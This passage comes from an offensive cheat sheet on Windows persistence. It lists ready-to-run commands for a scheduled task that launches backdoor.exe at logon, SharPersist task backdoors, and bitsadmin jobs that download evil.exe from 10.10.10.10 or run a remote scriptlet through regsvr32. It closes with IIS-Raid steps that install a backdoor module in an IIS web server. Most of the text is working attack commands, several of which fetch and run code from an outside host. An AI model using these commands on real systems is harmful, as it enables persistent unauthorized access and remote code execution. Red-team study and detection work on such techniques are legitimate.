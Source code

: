 ```powershell
PS C:\> $A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Users\Rasta\AppData\Local\Temp\backdoor.exe"
PS C:\> $T = New-ScheduledTaskTrigger -AtLogOn -User "Rasta"
PS C:\> $P = New-ScheduledTaskPrincipal "Rasta"
PS C:\> $S = New-ScheduledTaskSettingsSet
PS C:\> $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S
PS C:\> Register-ScheduledTask Backdoor -InputObject $D
```

Using SharPersist

```powershell
# Add to a current scheduled task
SharPersist -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Something Cool" -m add

# Add new task
SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m add
SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m add -o hourly
```


### BITS Jobs

```powershell
bitsadmin /create backdoor
bitsadmin /addfile backdoor "http://10.10.10.10/evil.exe"  "C:\tmp\evil.exe"

# v1
bitsadmin /SetNotifyCmdLine backdoor C:\tmp\evil.exe NUL
bitsadmin /SetMinRetryDelay "backdoor" 60
bitsadmin /resume backdoor

# v2 - exploit/multi/script/web_delivery
bitsadmin /SetNotifyCmdLine backdoor regsvr32.exe "/s /n /u /i:http://10.10.10.10:8080/FHXSd9.sct scrobj.dll"
bitsadmin /resume backdoor
```

## Serviceland

### IIS

IIS Raid – Backdooring IIS Using Native Modules

```powershell
$ git clone https://github.com/0x09AL/IIS-Raid
$ python iis_controller.py --url http://192.168.1.11/ --password SIMPLEPASS
C:\Windows\system32\inetsrv\APPCMD.EXE install module /name:Module Name /image:"%windir%\System32\inetsrv\IIS-Backdoor.dll" /add:true
```

### Windows Service

